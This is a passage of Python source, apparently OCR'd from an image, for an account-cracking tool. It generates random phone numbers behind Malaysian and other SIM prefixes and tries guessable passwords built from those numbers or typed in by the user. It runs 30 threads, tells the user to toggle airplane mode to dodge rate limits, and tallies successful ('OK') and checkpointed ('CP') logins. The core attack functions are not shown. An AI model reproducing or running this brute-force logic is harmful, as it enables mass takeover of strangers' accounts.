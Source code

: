         plist.append('57273200')
        plist.append('59039200')
        plist.append('07860786')
    elif __CH__ in ["B","b","2"]:
        psl = int(input(f' {red}[{green}●{red}] {green}INPUT PASS LIMITS {red}➠ {green}'));line()
        print(f" {red}[{green}●{red}] {green}EXAMPLE {red}➠{green} first6,first8,last6,last8")
        line()
        for i in range(psl):
            plist.append(input(f' {red}[{green}●{red}] {green}PASSWORD NO.{i+1} {red}➠ {green}'));line()
    for x in range(limit):
        nmp = "". join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    clear()
    with ThreadPoolExecutor(max_workers=30) as error:
        clear()
        print(f' {red}[{green}●{red}]{green} SIM CODE  {red}:{green} {code} {red}➠{green} METHOD {red}: {green}{___error___}')
        print(f' {red}[{green}●{red}]{green} TOTAL UID {red}:{green} %s ' %len(user))
        print(f' {red}[{green}●{red}]{green} TURN {red}[{white}ON{red}/{white}OFF{red}]{green} AIRPLANE MODE EVERY {white}4{green} MIN');line()
        for love in user:
            ids = code + love
            xxc= [love,ids,love[1:],love[2:],ids[5:],ids[4:],ids[3:],ids[2:],ids[1:],ids[0:],ids[:6],ids[:7],ids[:8],ids[:9],ids[:10]]
            tl = len(user)
            psd = xxc
            psd = plist
            if ___error___ in ['A','a','01','1']:error.submit(randm, ids, psd,tl)
            elif ___error___ in ['B','b','02','2']:error.submit(randm1, ids, psd,tl)
            elif ___error___ in ['C','c','03','3']:error.submit(randm2, ids, psd,tl)
            elif ___error___ in ['D','d','04','4']:error.submit(randm3, ids, psd,tl) 
            elif ___error___ in ['5','e','05','E']:error.submit(randm4, ids, psd,tl)
            elif ___error___ in ['6','f','06','F']:error.submit(randm5, ids, psd,tl)
    print(f'\r{red}◆{white}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━{red}◆{white}')
    print(f' {red}[{green}●{red}]{green} THE PROCESS HAS BEEN COMPLETE...')
    print(f' {red}[{green}●{red}]{green} TOTAL OK {red}:{green} %s' % str(len(oks)))
    print(f' {red}[{green}●{red}]{green} TOTAL CP {red}:{green} %s' % str(len(cps)))
    print(f'\r{red}◆{white}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━{red}◆{white}')
    input(f" {red}[{white}●{red}]{green} PRESS ENTER TO BACK MENU ")
    ___ImRAn___MaIN___MenU___()
#--------MALYASIA
def ___ML___():
    clear()
    print(f' {red}[{green}◆{red}] {green}SIM CODES {red}➠ {green}01125 01128 01137 01161');line()
    code = input(f' {red}[{white}◆{red}]{green} Choice    {red}➠ {green}')
    clear()
    print(f' {red}[{green}◆{red}] {green}EXAMPLE {red}  ➠ {green}10000 20000 30000');line()
    limit = int(input(f' {red}[{green}◆{red}] {green}LIMITS    {red}➠ {green}'));line();clear()
    print(f" \x1b[38;5;160m[\033[1;37mA\x1b[38;5;160m]\x1b[38;5;46m METHOD 1\n \x1b[38;5;160m[\033[1;37mB\x1b[38;5;160m]\x1b[38;5;46m METHOD 2\n \x1b[38;5;160m[\033[1;37mC\x1b[38;5;160m]\x1b[38;5;46m METHOD 3\n \x1b[38;5;160m[\033[1;37mD\x1b[38;5;160m]\x1b[38;5;46m METHOD 4\n \x1b[38;5;160m[\033[1;37mE\x1b[38;5;160m]\x1b[38;5;46m METHOD 5\n \x1b[38;5;160m[\033[1;37mF\x1b[38;5;160m]\x1b[38;5;46m METHOD 6");line()
    mtd=input(f" \x1b[38;5;160m[\033[1;37m◆\x1b[38;5;160m] \x1b[38;5;46mCHOICE {red}➠ {green}");clear()
    plist = []
    print(f" \x1b[38;5;160m[\033[1;37mA\x1b[38;5;160m]\x1b[38;5;46m AUTO PASSWORD")
    print(f" \x1b[38;5;160m[\033[1;37mB\x1b[38;5;160m]\x1b[38;5;46m CHOICE PASSWORD");line()
    __CH__ = input(f" \x1b[38;5;160m[\033[1;37m◆\x1b[38;5;160m] \x1b[38;5;46mCHOICE {red}➠ {green}")
    if __CH__ in ["A","a","1"]:
        plist.append('first6')
        plist.append('last6')
        plist.append('first7')
        plist.append('last7')
        plist.append('first8')